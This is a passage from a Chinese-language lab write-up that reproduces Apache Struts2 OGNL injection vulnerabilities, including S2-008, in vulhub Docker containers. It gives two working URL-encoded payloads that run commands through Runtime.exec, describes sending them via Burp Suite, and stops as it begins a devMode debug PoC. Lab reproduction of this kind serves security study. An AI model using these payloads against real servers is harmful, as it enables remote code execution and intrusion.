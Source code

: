 ### 构建poc

使用抓包工具burp suite，修改数据包插入poc

~~~poc
(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1
~~~

![image-20220330210413069](E:\学习\picture\image-20220330210413069.png)

**Poc2：**

~~~~
?%27%2B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%29%2B%27
~~~~

![image-20220330210547380](E:\学习\picture\image-20220330210547380.png)

### 查看数据连接状态

命令：

~~~
docker exec -it c25543ef6c4c /bin/bash
~~~

ls /tmp

![image-20220330210920367](E:\学习\picture\image-20220330210920367.png)

## S2-008复现

### 原理：

~~~~text
S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，但是这种情况在生产环境中几乎不可能存在，所以还是很鸡肋。
~~~~

**影响版本：Struts 2.1.0 – 2.3.1**

### 漏洞搭建

~~~
https://github.com/vulhub/vulhub/tree/master/struts2/s2-008
~~~

### poc构建

例如`?debug=command&expression=<OGNL EXP>`在`devMode`mode中添加参数，OGNL表达式会直接执行，可以执行命令：
